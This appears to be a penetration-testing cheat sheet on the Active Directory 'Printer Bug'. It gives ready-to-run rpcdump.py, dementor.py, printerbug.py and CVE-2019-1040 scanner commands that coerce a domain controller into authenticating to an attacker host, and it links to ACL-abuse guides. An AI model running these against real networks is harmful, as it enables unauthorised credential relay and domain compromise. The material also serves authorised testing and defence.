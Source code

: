 


## Printer Bug



### Validate

```
$ rpcdump.py CORP\snovvcrash:'Passw0rd!'@10.10.13.37 | grep -A2 MS-RPRN
```



### Trigger


#### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ ./dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
```


#### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ ./printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
```



### Chain


#### CVE-2019-1040-scanner

* [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ ./scan.py MEGACORP/snovvcrash:'Passw0rd!'@10.10.13.37
$ ./scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.local
```




## ACL Abuse

* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [Abusing ACEs Mindmap](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/ACEs_xmind.png) · [Orange-Cyberdefense/arsenal](https://github.com/Orange-Cyberdefense/arsenal)
